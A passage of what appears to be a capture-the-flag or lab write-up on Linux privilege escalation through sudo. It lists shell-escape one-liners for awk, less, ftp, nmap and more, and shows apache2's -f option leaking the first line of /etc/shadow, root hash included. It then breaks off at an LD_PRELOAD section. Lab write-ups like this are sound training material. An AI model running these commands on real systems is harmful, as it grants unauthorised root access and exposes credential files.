 ```bash
---
sudo awk 'BEGIN {system("/bin/sh")}'

---
sudo less /etc/profile
!/bin/sh

---
sudo ftp
!/bin/sh

---
sudo nmap --interactive
nmap> !sh

---
sudo more /etc/profile
!/bin/sh
```

### One program on the list doesn't have a shell escape sequence on GTFOBins. Which is it?
- **Answer:** apache2

### Consider how you might use this program with sudo to gain root privileges without a shell escape sequence.

- We can use the **-f** option to provide the config file.
- If the config file contains invalid commands, it'll error out the first line of the file.
- We can use this to read the first line of `/etc/passwd`:

```bash
user@debian:~$ /usr/sbin/apache2 -f /etc/shadow
Syntax error on line 1 of /etc/shadow:
Invalid command 'root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::', perhaps misspelled or defined by a module not included in the server configuration
```


---

##  Sudo - Environment Variables

```bash
user@debian:~$ sudo -l
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH
```

- LD_PRELOAD and LD_LIBRARY_PATH are both inherited from the user's environment

### LD_PRELOAD 
